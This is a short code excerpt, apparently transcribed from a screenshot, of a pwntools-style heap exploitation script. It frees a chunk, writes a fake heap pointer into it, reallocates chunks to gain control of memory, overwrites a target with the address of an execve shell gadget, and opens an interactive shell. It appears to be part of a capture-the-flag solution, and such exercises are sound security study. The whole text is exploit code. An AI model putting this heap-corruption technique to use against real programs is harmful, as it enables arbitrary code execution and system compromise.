 ```
allocate(0x60)
free(4)
payload = p64(fake_heap)
fill(2, payload)

allocate(0x60)
allocate(0x60)

payload = p8(0) * 3 + p64(0) * 2 + p64(execve_shell)
fill(6, payload)
allocate(200)

p.interactive()
```